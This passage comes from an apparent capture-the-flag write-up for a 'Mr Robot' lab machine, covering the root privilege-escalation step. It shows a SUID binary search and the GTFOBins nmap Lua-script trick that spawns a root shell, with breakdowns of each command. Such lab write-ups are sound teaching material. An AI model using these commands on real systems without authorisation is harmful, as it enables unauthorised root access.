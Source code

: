 ## **Privilege Escalation – Root**

I searched for **SUID binaries**:

```shell
find / -perm /4000 -type f 2>/dev/null
```

**Command Breakdown:**
- `find /` → Search from root directory.
- `-perm /4000` → Find files with SUID permission.
- `-type f` → Only regular files.
- `2>/dev/null` → Hide errors.

![sub](/assets/images/posts/2025-08-27-MrRobot/15.png)
One interesting result: **nmap**.

On [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#suid), I found a privilege escalation technique using nmap’s scripting mode:

```shell
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
/usr/local/bin/nmap --script=$TF
```

**Command Breakdown:**
- `TF=$(mktemp)` → Create a temporary file.
- `echo 'os.execute("/bin/sh")' > $TF` → Add Lua code to execute `/bin/sh`.
- `/usr/local/bin/nmap --script=$TF` → Run the script with nmap.

This gave me a **root shell**:

```
nmap> whoami
root
```

![sub](/assets/images/posts/2025-08-27-MrRobot/16.png)
